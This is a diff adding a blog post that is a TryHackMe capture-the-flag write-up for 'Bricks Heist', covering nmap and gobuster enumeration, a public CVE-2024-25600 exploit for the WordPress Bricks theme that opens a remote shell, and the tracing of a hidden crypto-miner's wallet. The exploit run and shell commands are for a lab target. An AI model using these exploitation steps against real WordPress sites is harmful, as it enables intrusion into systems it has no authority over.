

New challenge upload and changed image

Changed region(s): [[0.3707, 0.805, 0.8342, 0.8669]]

diff --git a/_posts/2025-02-06-thm-tryhack3mbricksheist-writeup.md b/_posts/2025-02-06-thm-tryhack3mbricksheist-writeup.md
@@ -1,0 +1,298 @@
+---
+title: "TryHack3M: Bricks Heist"
+date: 2025-02-06
+image: /assets/img/general/CTFgeneral_image.jpg
+description: Writeup of the TryHackMe-CTF TryHack3M: Bricks Heist
+categories: [TryHackMe, Easy]
+tags: [linux, web, blockchain, wordpress]
+---
+
+## Challenge Description
+<center>
+<table>
+  <tr>
+    <td>Platform</td>
+    <td>TryHackMe</td>
+  </tr>
+  <tr>
+    <td>Name</td>
+    <td>TryHack3M: Bricks Heist</td>
+  </tr>
+  <tr>
+    <td>Description</td>
+    <td>Crack the code, command the exploit! Dive into the heart of the system with just an RCE CVE as your key.</td>
+  </tr>
+  <tr>
+    <td>Difficulty</td>
+    <td>Easy</td>
+  </tr>
+  <tr>
+    <td>OS</td>
+    <td>Linux</td>
+  </tr>
+  <tr>
+    <td>Link</td>
+    <td><a href="https://tryhackme.com/room/tryhack3mbricksheist">https://tryhackme.com/room/tryhack3mbricksheist</a></td>
+  </tr>
+</table>
+</center>
+
+This writeup is a possible solution of the CTF-challenge TryHack3M: Bricks Heist.  
+
+## Enumeration
+I started the enumeration using `nmap`:
+```bash
+$ nmap -p- 10.10.61.202
+  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 05:36 EST
+  Nmap scan report for bricks.thm (10.10.61.202)
+  Host is up (0.040s latency).
+  Not shown: 65531 closed tcp ports (conn-refused)
+  PORT     STATE SERVICE
+  22/tcp   open  ssh
+  80/tcp   open  http
+  443/tcp  open  https
+  3306/tcp open  mysql
+
+  Nmap done: 1 IP address (1 host up) scanned in 32.13 seconds
+```
+and enumerated the found services in more depth using nmap's `-A` flag:
+```bash
+$ nmap -A -p 22,80,443,3306 10.10.61.202
+  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 05:37 EST
+  Nmap scan report for bricks.thm (10.10.61.202)
+  Host is up (0.038s latency).
+
+  PORT     STATE SERVICE  VERSION
+  22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
+  | ssh-hostkey: 
+  |   3072 4e:2f:5e:75:fa:b3:4f:e7:ab:5d:68:34:24:6c:39:a4 (RSA)
+  |   256 92:2d:3f:ed:cc:5a:59:d1:c2:16:a8:d5:f0:c6:b5:2d (ECDSA)
+  |_  256 7b:6c:41:f5:68:4b:55:4f:c4:25:14:43:11:52:27:81 (ED25519)
+  80/tcp   open  http     WebSockify Python/3.8.10
+  |_http-server-header: WebSockify Python/3.8.10
+  |_http-title: Error response
+  | fingerprint-strings: 
+  |   GetRequest: 
+  |     HTTP/1.1 405 Method Not Allowed
+  |     Server: WebSockify Python/3.8.10
+  |     Date: Tue, 18 Feb 2025 10:37:08 GMT
+  |     Connection: close
+  |     Content-Type: text/html;charset=utf-8
+  |     Content-Length: 472
+  |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
+  |     "http://www.w3.org/TR/html4/strict.dtd">
+  |     <html>
+  |     <head>
+  |     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
+  |     <title>Error response</title>
+  |     </head>
+  |     <body>
+  |     <h1>Error response</h1>
+  |     <p>Error code: 405</p>
+  |     <p>Message: Method Not Allowed.</p>
+  |     <p>Error code explanation: 405 - Specified method is invalid for this resource.</p>
+  |     </body>
+  |     </html>
+  |   HTTPOptions: 
+  |     HTTP/1.1 501 Unsupported method ('OPTIONS')
+  |     Server: WebSockify Python/3.8.10
+  |     Date: Tue, 18 Feb 2025 10:37:08 GMT
+  |     Connection: close
+  |     Content-Type: text/html;charset=utf-8
+  |     Content-Length: 500
+  |     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
+  |     "http://www.w3.org/TR/html4/strict.dtd">
+  |     <html>
+  |     <head>
+  |     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
+  |     <title>Error response</title>
+  |     </head>
+  |     <body>
+  |     <h1>Error response</h1>
+  |     <p>Error code: 501</p>
+  |     <p>Message: Unsupported method ('OPTIONS').</p>
+  |     <p>Error code explanation: HTTPStatus.NOT_IMPLEMENTED - Server does not support this operation.</p>
+  |     </body>
+  |_    </html>
+  443/tcp  open  ssl/http Apache httpd
+  |_http-title: Brick by Brick
+  |_http-server-header: Apache
+  | tls-alpn: 
+  |   h2
+  |_  http/1.1
+  | http-robots.txt: 1 disallowed entry 
+  |_/wp-admin/
+  |_ssl-date: TLS randomness does not represent time
+  |_http-generator: WordPress 6.5
+  | ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=US
+  | Not valid before: 2024-04-02T11:59:14
+  |_Not valid after:  2025-04-02T11:59:14
+  3306/tcp open  mysql    MySQL (unauthorized)
+```
+From here I proceeded the analysis port by port.
+
+## Port 443 Analysis
+
+The web server only displayed an image of a brick wall:
+
+![Website](/assets/img/tryhackme/tryhack3mbrickheist/thm_tryhack3mbrickheist_1.jpg)
+
+I proceeded with a Gobuster directory enumeration and found a significant number of directories:
+```bash
+$ gobuster dir -k --url https://bricks.thm/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
+	===============================================================
+  Gobuster v3.6
+  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
+  ===============================================================
+  [+] Url:                     https://bricks.thm/
+  [+] Method:                  GET
+  [+] Threads:                 10
+  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
+  [+] Negative Status codes:   404
+  [+] User Agent:              gobuster/3.6
+  [+] Timeout:                 10s
+  ===============================================================
+  Starting gobuster in directory enumeration mode
+  ===============================================================
+  /rss                  (Status: 301) [Size: 0] [--> https://bricks.thm/feed/]
+  /login                (Status: 302) [Size: 0] [--> https://bricks.thm/wp-login.php]
+  /0                    (Status: 301) [Size: 0] [--> https://bricks.thm/0/]
+  /feed                 (Status: 301) [Size: 0] [--> https://bricks.thm/feed/]
+  /atom                 (Status: 301) [Size: 0] [--> https://bricks.thm/feed/atom/]
+  /s                    (Status: 301) [Size: 0] [--> https://bricks.thm/sample-page/]
+  /b                    (Status: 301) [Size: 0] [--> https://bricks.thm/2024/04/02/brick-by-brick/]
+  /wp-content           (Status: 301) [Size: 238] [--> https://bricks.thm/wp-content/]
+  /admin                (Status: 302) [Size: 0] [--> https://bricks.thm/wp-admin/]
+  /rss2                 (Status: 301) [Size: 0] [--> https://bricks.thm/feed/]
+  /wp-includes          (Status: 301) [Size: 239] [--> https://bricks.thm/wp-includes/]
+  /br                   (Status: 301) [Size: 0] [--> https://bricks.thm/2024/04/02/brick-by-brick/]
+  /sa                   (Status: 301) [Size: 0] [--> https://bricks.thm/sample-page/]
+  /rdf                  (Status: 301) [Size: 0] [--> https://bricks.thm/feed/rdf/]
+  /page1                (Status: 301) [Size: 0] [--> https://bricks.thm/]
+  /sample               (Status: 301) [Size: 0] [--> https://bricks.thm/sample-page/]
+  /'                    (Status: 301) [Size: 0] [--> https://bricks.thm/]
+  /dashboard            (Status: 302) [Size: 0] [--> https://bricks.thm/wp-admin/]
+  /%20                  (Status: 301) [Size: 0] [--> https://bricks.thm/]
+  /sam                  (Status: 301) [Size: 0] [--> https://bricks.thm/sample-page/]
+  /wp-admin             (Status: 301) [Size: 236] [--> https://bricks.thm/wp-admin/]
+  /phpmyadmin           (Status: 301) [Size: 238] [--> https://bricks.thm/phpmyadmin/]
+
+```
+
+The directory enumeration was misleading because most of the directories redirected either to a WordPress login page or to other subpages, which also displayed the brick wall again. I then performed a subdomain enumeration, but it didn't yield any new results. The directory enumeration revealed a WordPress installation, so I continued with `wpscan`, which identified an interesting plugin:
+```bash
+[...]
+[+] WordPress version 6.5 identified (Insecure, released on 2024-04-02).
+[...]
+[+] WordPress theme in use: bricks
+ | Version: 1.9.5 (80% confidence)
+[...]
+```
+
+After researching the plugin, I discoverd an exploit for the Bricks theme on <a href="https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT">Github</a>. This gave me initial access, and I was able to retrieve the first flag:
+```bash
+$ python3 exploit.py -u https://bricks.thm/                                     
+
+   _______    ________    ___   ____ ___  __ __       ___   ___________ ____  ____
+  / ____/ |  / / ____/   |__ \ / __ \__ \/ // /      |__ \ / ____/ ___// __ \/ __ \
+ / /    | | / / __/________/ // / / /_/ / // /_________/ //___ \/ __ \/ / / / / / /
+/ /___  | |/ / /__/_____/ __// /_/ / __/__  __/_____/ __/____/ / /_/ / /_/ / /_/ /
+\____/  |___/_____/    /____/\____/____/ /_/       /____/_____/\____/\____/\____/
+    
+Coded By: K3ysTr0K3R --> Hello, Friend!
+
+[*] Checking if the target is vulnerable
+[+] The target is vulnerable
+[*] Initiating exploit against: https://bricks.thm/
+[*] Initiating interactive shell
+[+] Interactive shell opened successfully
+Shell> whoami
+	apache
+
+Shell> ls
+  650c844110baced87e1606453b9*****.txt
+  index.php
+  kod
+  license.txt
+  phpmyadmin
+  readme.html
+  wp-activate.php
+  wp-admin
+  wp-blog-header.php
+  wp-comments-post.php
+  wp-config-sample.php
+  wp-config.php
+  wp-content
+  wp-cron.php
+  wp-includes
+  wp-links-opml.php
+  wp-load.php
+  wp-login.php
+  wp-mail.php
+  wp-settings.php
+  wp-signup.php
+  wp-trackback.php
+  xmlrpc.php
+Shell> cat 650c844110baced87e1606453b9*****.txt
+	THM{[removed]}
+```
+
+While further enumerating the system, I found a promising service: 
+```bash
+Shell> systemctl list-units --type=service --state=running
+[...]
+[removed]                                 loaded    active   running TRYHACK3M
+[...]
+Shell> systemctl status [removed]
+ubuntu.service - TRYHACK3M
+     Loaded: loaded (/etc/systemd/system/[removed]; enabled; vendor preset: enabled)
+     Active: active (running) since Tue 2025-02-18 11:35:06 UTC; 48s ago
+   Main PID: 19283 ([removed]
+      Tasks: 2 (limit: 4671)
+     Memory: 30.6M
+     CGroup: /system.slice/[removed]
+             ├─19283 /lib/NetworkManager/[removed]
+             └─19284 /lib/NetworkManager/[removed]
+```
+
+I analyzed the service directory, and located a configuration file:
+```bash
+cd /lib/NetworkManager
+ls
+  [...]
+  [removed].conf
+  [...]
+```
+
+The file logged the miner activity and also contained the encoded wallet address of the miner:
+```bash
+head [removed].conf
+  ID: [removed miner id]
+  2024-04-08 10:46:04,743 [*] confbak: Ready!
+  2024-04-08 10:46:04,743 [*] Status: Mining!
+  2024-04-08 10:46:08,745 [*] Miner()
+  2024-04-08 10:46:08,745 [*] Bitcoin Miner Thread Started
+  2024-04-08 10:46:08,745 [*] Status: Mining!
+  2024-04-08 10:46:10,747 [*] Miner()
+  2024-04-08 10:46:12,748 [*] Miner()
+  2024-04-08 10:46:14,751 [*] Miner()
+  2024-04-08 10:46:16,753 [*] Miner()
+```
+
+After decoding the ID using CyberChef, I found the wallet address:
+
+![Wallet Address Decode](/assets/img/tryhackme/tryhack3mbrickheist/thm_tryhack3mbrickheist_2.jpg)
+
+I split the wallet address and searched for it on blockchain.com:
+
+![wallet on Blockchain.com](/assets/img/tryhackme/tryhack3mbrickheist/thm_tryhack3mbrickheist_3.jpg)
+
+After checking the transaction details, I was able to identify the wallet that sends BTC to the miner's wallet:
+
+![Transaction](/assets/img/tryhackme/tryhack3mbrickheist/thm_tryhack3mbrickheist_4.jpg)
+
+After conducting further research, I discovered that the sender's wallet is mentioned in several articles, which links it to a known APT group:
+
+![News Article](/assets/img/tryhackme/tryhack3mbrickheist/thm_tryhack3mbrickheist_5.jpg)
+
+solved! :)
